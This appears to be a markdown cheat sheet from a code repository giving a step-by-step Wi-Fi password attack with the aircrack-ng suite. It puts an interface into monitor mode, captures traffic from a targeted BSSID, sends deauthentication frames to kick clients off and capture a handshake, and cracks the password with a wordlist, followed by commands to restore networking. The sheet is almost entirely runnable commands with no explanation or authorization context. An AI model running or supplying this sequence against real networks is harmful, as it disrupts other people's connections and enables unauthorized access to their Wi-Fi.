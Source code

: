 `iwconfig`

`sudo airmon-ng check kill`

### Start Monitor mode
`sudo airmon-ng start wlan0`

### Stop Monitor mode
`sudo airmon-ng stop wlan0`

`sudo airmon-ng`

### Start monitoring
`sudo airodump-ng wlan0`

### To start monitoring data for a particular network>>
`sudo airodump-ng -w ./airmon-ng/data -c 1 --bssid 26:8F:05:FC:3C:A5 wlan0`

### Run the below code other tab
`sudo aireplay-ng --deauth 10 -a 26:8F:05:FC:3C:A5 wlan0`

### Crack password 
`sudo aircrack-ng ./airmon-ng/data-01.cap -w ./wordlist/pass.txt`

### Others

`sudo ifconfig wlan0 up`

`sudo ifconfig wlan0 down`

`sudo airodump-ng-oui-update`

`service NetworkManager restart`

`systemctl start wpa_supplicant`

`systemctl start NetworkManager`